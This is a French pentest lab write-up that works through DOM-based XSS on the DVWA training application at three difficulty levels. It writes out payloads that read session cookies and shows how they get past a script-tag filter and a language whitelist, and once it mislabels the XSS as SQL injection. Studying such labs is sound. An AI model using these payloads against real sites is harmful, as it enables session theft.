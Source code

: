 # 1. DOM Based XSS

Le DOM-Based XSS (Cross-Site Scripting) est une variante de vulnérabilité XSS où l'injection malveillante se produit dans le Document Object Model (DOM) côté client, sans jamais transiter par le serveur. Autrement dit, le code malveillant est interprété directement par le navigateur en manipulant des données dynamiques gérées dans le DOM, souvent à partir de l'URL ou d'autres entrées utilisateur.

## 1.1 Premier niveau - low

Nous arrivons sur une page ou l'on peux changer la langue.  

![images](C:\Users\Sacha\Desktop\pentest_dvwa\rapport_dvwa\images\xssDom\1.png)

On remarque un parametre `GET` dans l'url qui est `default`.

```
http://34.163.97.167/DVWA/vulnerabilities/xss_d/?default=French
```

On va donc essayer de modifier la valeur `French` par une injection SQL basique pour voir si ca marche

```
http://34.163.97.167/DVWA/vulnerabilities/xss_d/?default=%3Cscript%3Ealert(%27info%27);%3C/script%3E
```

![images](C:\Users\Sacha\Desktop\pentest_dvwa\rapport_dvwa\images\xssDom\2.png)

On remarque que la page est vulnerable aux attaques XSS

On va donc essayer de recuperer les cookies de session en utilisant la fonction JS `document.cookie`

![images](C:\Users\Sacha\Desktop\pentest_dvwa\rapport_dvwa\images\xssDom\3.png)

On arrive bien a recuperer les cookies de session en utilisant la faille.
On peux donc en deduire qu'il n'y a aucun filtre/protection .

## 1.2 Deuxieme niveau - medium

Pour le deuxieme niveau, notre hypothese est que les balises les plus simples comme `<script>` sont filtres. Il faut donc trouver un autre moyen pour trouver le cookie

Apres avoir essaye d'injecter differents payload dans l'url, on se rend compte que cela ne marche pas. On va donc essayer de modifier via le mode developpeur de chrome le script manuellement.

![images](C:\Users\Sacha\Desktop\pentest_dvwa\rapport_dvwa\images\xssDom\4.png)

On rajoute un `onclick` sur le bouton `select` qui permet d'afficher les cookies

```
<input type="submit" value="Select" onclick="alert(document.cookie)">
```

![images](C:\Users\Sacha\Desktop\pentest_dvwa\rapport_dvwa\images\xssDom\5.png)

On peux regarder le code et on voit qu'il y a une condition qui verifie si il y a un parametre `<script>`, comme on le pensait.

```php
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];

    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}

?>
```

## 1.3 Troisieme niveau - hard

Pour celui ci, ne trouvant pas nous avons commence par regarde le code source ci-dessous :

```php
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}

?>
```

L'administrateur a rajoute une White list qui permet "thoeriquement" de verifier que le parametre `default` contient bien une de langues dans le `switch case`. Le probleme c'est que l'on peux ecrire la langue pour passer la verification et ensuite injecter notre XSS

On va donc injecter notre XSS apres le parametre `default` avec le caractere `&`

```
http://34.163.97.167/DVWA/vulnerabilities/xss_d/?default=German&<script>alert(document.cookie);</script>
```

Et le payload est fonctionnele on retrouve bien notre cookie de session.